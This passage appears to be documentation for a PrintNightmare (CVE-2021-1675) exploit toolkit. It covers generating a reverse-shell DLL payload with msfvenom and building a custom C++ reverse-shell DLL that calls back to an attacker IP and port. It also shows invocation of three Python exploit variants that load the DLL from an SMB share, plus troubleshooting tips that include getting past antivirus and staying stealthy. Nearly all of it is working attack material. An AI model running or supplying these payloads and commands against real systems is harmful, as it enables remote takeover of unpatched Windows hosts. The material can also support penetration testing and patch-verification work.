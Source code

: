```bash
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<YOUR IP> LPORT=<PORT TO LISTEN> -f dll -o /home/user/Documents/printnightmare/payloads/rev.dll
```

### Custom simple C++ reverse shell example

1. Install C++ tools in visual studio.

2. Create new project with Dynamic-Link Libary template.

3. Download the `plain_revshell.cpp` file and paste the content into the existing template.

{{% attachments title="Related files" pattern="plain_revshell.cpp" %}}

4. Update the RHOST & RPORT on StartCallback

```cpp
BOOL WINAPI DllMain(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
	switch (dwReason) {
	case DLL_PROCESS_ATTACH:
		StartCallback("172.16.0.137", 80); // <- update this
```

5. Build the release (ctrl+shift+b)

6. Place the DLL in the payloads folder

## Usage

```bash
python3 [MSPAR|MSRPRN|MSRPRN_nobrute].py 'domain/user:pass@ip' PrinterName '\\IP_of_SMB_share\share\printer.dll'
```

There are 3 different version. All versions have been updated to support a custom driver/printername.

| Version        | Info                                                                                                                     | When to use                                                                                                             |
| -------------- | ------------------------------------------------------------------------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------- |
| MSPAR          | Abuses MSPAR                                                                                                             | When ItWasAllADream says its vulnerable                                                                                 |
| MSRPRN         | Abuses MSRPRN                                                                                                            | When ItWasAllADream says its vulnerable                                                                                 |
| MSRPRN_nobrute | Abuses MSRPRN but does not brute force driver folders, see [this pull](https://github.com/cube0x0/CVE-2021-1675/pull/25) | When ItWasAllADream says its vulnerable but it does not seem to work and you tried everything listed in `Errors & tips` |

{{% notice warning %}}
Do note that MSRPRN_nobrute is more 'stealthy' (in the sense that there is less activity on disk) but less forgiving. Each run of the exploit needs a new printer name and dll name if they have not been removed.
{{% /notice %}}

### Errors & tips

| Error                                                                                                         | Solution                                                                                                                                                                                 |
| ------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied                                                         | permissions on the file in the SMB share                                                                                                                                                 |
| RPRN SessionError: unknown error code: 0x180                                                                  | Enable SMB2Support                                                                                                                                                                       |
| RPRN SessionError: code: 0x2: - ERROR_FILE_NOT_FOUND - The system cannot fil the file specified.              | Typo in supplied DLL ?                                                                                                                                                                   |
| RPRN SessionError: code: 0xd8 - ERROR_EXE_MACHINE_TYPE_MISMATCH                                               | DLL is kaduk or wrong architect (x86 vs x64)                                                                                                                                             |
| RPRN SessionError: code 0xe1 - ERROR_VIRUS_INFECTED                                                           | AV caught you butt, try harder                                                                                                                                                           |
| RPRN SessionError: Unknown error code: 0x8001011b                                                             | Seems like the host is patched                                                                                                                                                           |
| RPRN SessionError: code: 0x43 ERROR_BAD_NET_NAME                                                              | Wrong share name used in printnightmare or typo in samba config                                                                                                                          |
| SMB SessionError: STATUS_PIPE_BROKEN                                                                          | Print spooler service crashed during payload execution. Restart the spooler if you got a shell (PowerShell -> `Restart-Service spooler`. CMD -> `net stop spooler && net start spooler`) |